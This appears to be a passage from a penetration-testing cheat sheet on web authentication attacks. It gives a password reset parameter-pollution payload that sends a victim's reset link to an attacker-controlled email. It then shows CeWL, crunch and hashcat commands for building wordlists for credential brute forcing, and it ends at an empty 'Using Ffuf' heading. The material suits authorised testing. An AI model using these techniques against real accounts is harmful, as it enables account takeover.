 <br />

## Password Reset Exploit

We may be able to retrieve the password reset link by specifying our email address instead of (in addition to) the victim email address without validation.

```bash
email[]=victim@email.com&email[]=evil@email.com
```

<br />

## Brute Force Credentials

Before brute forcing, we need wordlists used for it.

- **[Rockyou](https://github.com/praetorian-inc/Hob0Rules/blob/master/wordlists/rockyou.txt.gz)**
- **[SecLists](https://github.com/danielmiessler/SecLists)**
- **[CeWL](https://github.com/digininja/CeWL)**

    Generate the custom wordlist from the target web page.

    ```sh
    cewl https://example.com -w wordlist.txt
    cewl https://example.com/about-us -w usernames.txt
    # -d: Depth
    # -m: Minimum word length
    cewl -d 2 -m 5 https://example.com -w wordlist.txt
    # --extentions
    cewl https://example.com -w wordlist.txt --lowercase
    cewl https://example.com -w wordlist.txt --with-numbers
    ```

- **[crunch]**

    ```sh
    crunch <min> <max> <chars> -o wordlist.txt
    # e.g.
    crunch 3 5 0123456789ABCDEF -o wordlist.txt
    ```

If we can predict the target password reasonably, we can generate passwords from the password.

```bash
echo -n 'passw0rd' > password.txt
hashcat --stdout password.txt -r /usr/share/hashcat/rules/best64.rule > passlist.txt
```

### Using Ffuf
